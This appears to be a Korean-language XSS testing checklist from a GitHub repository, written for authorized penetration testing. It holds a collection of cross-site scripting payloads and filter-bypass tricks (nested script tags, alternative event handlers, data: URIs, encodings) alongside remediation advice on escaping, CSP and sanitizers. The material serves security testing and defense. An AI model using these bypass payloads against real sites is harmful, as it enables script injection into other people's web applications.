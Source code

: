 # XSS 점검 가이드 & 페이로드 모음 (Markdown 버전)

보안 점검 시 활용할 수 있는 **XSS 페이로드**, **점검 절차**, **대응 방안**을 한 문서로 정리했습니다.  
모든 예시는 **합법적이고 승인된 환경**에서의 연구/내부 점검 목적에만 사용하세요.

&nbsp;
## 목차
- [개요](#개요)
- [추천 페이로드](#추천-페이로드)
- [점검 방법](#점검-방법)
- [상황별 점검 포인트](#상황별-점검-포인트)
- [패킷 관점 체크](#패킷-관점-체크)
- [대응 방안](#대응-방안)
- [유의 사항](#유의-사항)
- [참고](#참고)

&nbsp;
## 개요
- 입력값이 **어느 컨텍스트**에 들어가는지(태그/속성/스크립트/URL 등)를 먼저 파악한 뒤, 해당 컨텍스트에서 **실행 가능**한 최소 페이로드부터 시도합니다.
- **패턴 기반 필터**만 믿지 말고, 아키텍처적으로 **신뢰되지 않은 입력을 HTML로 렌더링하지 않는** 방향을 우선 검토하세요.

> **주의**  
> 본 문서는 예시를 **코드 블록**으로만 제공합니다(자동 실행 없음). 승인되지 않은 시스템에 대한 테스트는 불법입니다.


&nbsp;
## 추천 페이로드

### 1) 기본 테스트
```html
<script>alert(1111)</script>
```

### 2) `<script>` 태그가 차단될 때
```html
<details onpointerover=confirm(1111)></details>
```

### 3) 속성 값(value) 내부 삽입 (동작 유발 필요)
```html
" onkeydown=confirm(1111) contenteditable onfocus
```

### 4) 공백이 차단될 때
```html
<svg/onload=confirm(1111)/>
```

### 5) Polyglot XSS (컨텍스트 다중 호환)
> 여러 컨텍스트에서 동시에 유효하게 해석되도록 설계한 페이로드.  
> 프로젝트 성격에 맞춰 별도 섹션으로 확장하세요.

&nbsp;
## 점검 방법

### A. 입력값 위치(컨텍스트) 파악
- **태그 속성 내부**
  ```html
  <input type="text" value="입력 값">
  ```
  따옴표 종료 후 이벤트 삽입:
  ```html
  <input value="test" onpointerover=confirm(1111)>
  ```

- **태그 외부(본문 영역)**
  ```html
  <a href="test.com">텍스트</a><script>alert(1111)</script>
  ```

### B. 필터링/치환 패턴 식별 및 우회
- 특수문자 제한(`"`, `<`, `(`, `=` 등) 시 **인코딩/대체 문자** 활용
- 이벤트 핸들러 제한(`onload`, `onerror` 등) 시 **대체 핸들러** 검토(예: `onpointerover`, `onkeydown`)
- `<script>` 차단 시 **대체 태그/기능** 활용
  ```html
  <svg onload=confirm(1111)>
  ```
  ```html
  <meta http-equiv="refresh" content="0;url=data:text/html,<script>alert(1111)</script>">
  ```

- **삭제/치환 기반 필터** 우회
  ```html
  <scr<script>ipt>alert(1111)</scr<script>ipt>
  ```

- **알림창 함수 필터링** 우회(속성/객체 경유)
  ```html
  <svg onload="window "/>
  ```

### C. 추가 문자열 주입(접두/접미) 대응
- 뒤에 문자열이 붙는 경우: `<!--` 등 **주석 처리**로 종료
- 앞에 붙는 경우: **태그 닫기** 후 새로운 구문으로 이탈

&nbsp;
## 상황별 점검 포인트

- **특수문자 필터링**: `"`, `'`, `<>`, `()`, `:`, `=`
- **응답 맥락 탈출**: `" />`, `</script>` 등으로 컨텍스트 이탈 가능성 확인
- **대소문자 혼용**: `<sCriPt>` 등
- **이벤트 핸들러 필터링**: `onload`, `onerror`, `onclick` 차단 시 `ondrag`, `onfocus`, `onpointerover` 등 대체 검토
- **인코딩 시도**
  - URL: `%3Cscript%3E`
  - 유니코드: `<`
  - HTML 엔티티: `&#x3C;`
  - Base64: `data:text/html;base64,...`
- **태그 필터링 우회**: `<script>`, `<img>`, `<svg>` 차단 시 `<details>`, `<object>`, `<embed>` 등
- **하이퍼링크 기반**
  ```html
  <a href="javascript:confirm(1)">Click</a>
  ```
- **폼 전송 기반**
  ```html
  <form action="data:text/html,<script>alert(1111)</script>">
    <input type="submit">
  </form>
  ```
- **공백 필터링 우회**: `<svg/onload=...>` (환경/브라우저 의존성 주의)
- **hidden 필드 탈출 / iframe·object·embed·meta의 `data:` 스킴 활용** (환경 의존)

<details>
<summary><strong>추가 사례 모음 (접기/펼치기)</strong></summary>

- 알림창 전부 필터링 시 **리다이렉트/네비게이션** 등 대체 효과 검토  
  ```html
  <img src=x onerror="location.href='https://example.org'">
  ```

- `()` 필터링 시 **백틱** 활용 가능한지 확인  
  ```html
  alert`1`
  ```

- **응답 값 뒤에 문자열이 붙어 실패**할 때: 주석/닫기 태그로 무력화  
  ```html
  <img src onerror=prompt(1)<!--
  ```

- `<` 치환 시 앞에 `<` 추가 시도  
  ```html
  <x<svg/onload=prompt(1)/>/>
  ```
</details>

&nbsp;
## 패킷 관점 체크
- **`location.hash` 사용 여부**: 응답 내 해당 참조가 있으면 `#<payload>`로 DOM XSS 가능성
- **POST→GET 변환**: 동일 파라미터가 GET으로도 반영되는지 확인 (렌더링 경로 차이로 성공 가능성↑)
- **전송 패킷엔 없지만 응답에 페이로드가 존재**: 응답에 있던 값을 **직접 전송**하여 반영되는지 재확인

&nbsp;
## 대응 방안 (필수)
- **출력 이스케이프**: 컨텍스트별 적절한 이스케이프 적용
- **CSP(Content Security Policy)**: 스크립트 소스/인라인 제한, 보고 엔드포인트 설정
- **Sanitizer 적용**: 검증된 라이브러리(예: DOMPurify) 사용
- **아키텍처 개선**: 신뢰되지 않은 입력을 HTML로 렌더링하지 않도록 템플릿/렌더 경계 재설계

> **권장**  
> 패턴 기반 필터에만 의존하지 말고, **출력 컨텍스트 보안**과 **CSP**를 병행하세요.

&nbsp;
## 유의 사항
- 고객사/사내 식별 가능 정보(도메인, 스크린샷, 내부 경로, 로그 등)는 **공개 저장소에 포함하지 마세요**.
- Git 이력(History)에 남은 민감 정보는 **레포 삭제/히스토리 재작성** 없이 완전 제거되지 않을 수 있습니다.

&nbsp;
## 참고
- PortSwigger XSS Cheat Sheet  
  https://portswigger.net/web-security/cross-site-scripting/cheat-sheet



© 2025 XSS Checklist · 연구/내부 점검 용도
